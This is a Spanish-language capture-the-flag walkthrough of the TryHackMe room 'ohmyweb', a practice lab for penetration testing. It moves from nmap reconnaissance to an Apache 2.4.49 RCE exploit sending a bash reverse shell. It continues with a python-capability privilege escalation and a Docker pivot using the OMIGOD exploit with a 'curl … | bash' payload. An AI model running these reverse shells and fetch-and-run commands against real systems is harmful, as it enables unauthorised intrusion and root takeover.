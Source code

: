 **https**://tryhackme.com/r/room/ohmyweb
# Fase de reconocimiento
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.146.85
```
![[Pasted image 20240520013051.png]]
## Reconocimiento de servicios
```
nmap -sCV -p22,80 10.10.146.85
```
![[Pasted image 20240520013248.png]]
## Fuzzing
```
dirb http://10.10.146.85
```
Wappalyzer
![[Pasted image 20240520015826.png]]

## Buscar vulnerabilidades
```
searchsploit apache 2.4.49
```
![[Pasted image 20240520020117.png]]
Encontramos un RCE
# Fase de ataque
## RCE
1. Usamos el exploit
```
searchsploit -m multiple/webapps/50383.sh
```
2. Nos ponemos en escucha por el puerto 443
```
nc -nlvp 443
```
3. Mandamos la Reverse Shell
```
./exploit.sh http /bin/bash bash -i >& /dev/tcp/10.9.0.14/443 0>&1
```
![[Pasted image 20240520020929.png]]
[-] ==pwned!==
## Ajustar terminal
```
script /dev/null -c bash
```
ctrl + z
```
stty raw -echo; fg
```
```
	reset xterm
```
```
export TERM=xterm
```
```
stty rows 44 columns 184
```
Parece que estamos dentro de un Docker
# Privilege Escalation
## Docker
Encontramos un python con capabilities activadas
```
getcap -r / 2>/dev/null
```
Buscamos en en [gtfobins.](https://gtfobins.github.io/gtfobins/python/) Capabilities
```
python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
![[Pasted image 20240520022755.png]]
[-] ==pwned!==
Para volver a bash normal
```
/bin/bash -p 
```
## Pivoting
![[Pasted image 20240520025931.png]]
Movemos nmap al docker
1.  Nos descargamos el nmap
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
2. Abrimos un servidor HTTP para compartir el archivo
```
python3 -m http.server 80
```
3. Desde la maquina victima lo descargamos
```
curl -v http://10.9.0.14/nmap -o nmap
```
4. Lo volvemos ejecutable
```
chmod +x ./nmap
```
5. Host Discovery
6. Miramos los puertos abiertos
```
./nmap -p- --min-rate 5000 172.17.0.1
```
![[Pasted image 20240520032307.png]]
Los puertos 5985 y 5986 tiene un CVE de RCE as root
1. Nos descargamos el exploit
```
git clone https://github.com/horizon3ai/CVE-2021-38647
```
2. Abrimos un servidor HTTP para compartir el archivo
```
python3 -m http.server 80
```
3. Desde la maquina victima lo descargamos
```
curl -v http://10.9.0.14/omigod.py -o omigod.py
```
5. Nos ponemos en escucha por el puerto 1111
```
nc -nlvp 1111
```
6. Mandamos la Reverse Shell
```
echo 'bash -i >& /dev/tcp/10.9.0.14/1111 0>&1' > shell.sh
python3 -m http.server 80

python3 omigod.py -t 172.17.0.1 -c 'curl http://10.9.0.14/shell.sh | bash'
```
[+] ==pwned!==